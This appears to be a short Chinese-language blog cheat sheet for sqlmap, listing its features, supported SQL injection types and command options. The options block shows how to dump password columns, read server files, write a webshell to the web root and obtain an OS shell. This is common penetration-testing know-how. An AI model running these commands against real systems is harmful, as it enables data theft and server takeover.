 ```yaml
---
title: sqlmap
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pp1ove
authorDesc: 一个好奇的人
categories: 工具
comments: false
date: 2021-01-29 19:58:30
tags: sqlmap
photos: \img\article\11.png
---
```


## 功能介绍

1.dump数据

2.读写文件

3.绕web防火墙（waf）

4.SqlMapAPI

## 支持的注入类型

1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。

2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

4、联合查询注入，可以使用union的情况下的注入。（适合用于通过循环直接输出联合查询结果，否则只会显示第一项结果）

5、堆查询注入，可以同时执行多条语句的执行时的注入。

## 相关命令

```
-u ""                            #测试是否有注入
-u "" --current-db 				 #查看当前数据库
-u "" -D dbname --tables	 	#查看所有表
-u "" -D dbname -T tablename --columns #查字段
-u "" -D dbname -T tablename -C id,name,passwd --dump#查数据
-u "" --cookie="PHPSESSID=613DAD....."  #使用cookie
-u "" --file-read="C:\phpStudy\www\index.php" #读取铭感文件，需要用绝对路径
-u "" --file-write="./shell.php" --file-dest "C:\phpStudy\www\a.php" #写webshell
-u ""  --data "uname=1&passwd" #post注入
-u "" --os-shell  #获取shell
-u "" --sql-shell --no-cast #获取数据库权限
```

SqlMapAPI

```
python sqlmapapi.py -s -h  -p 
```

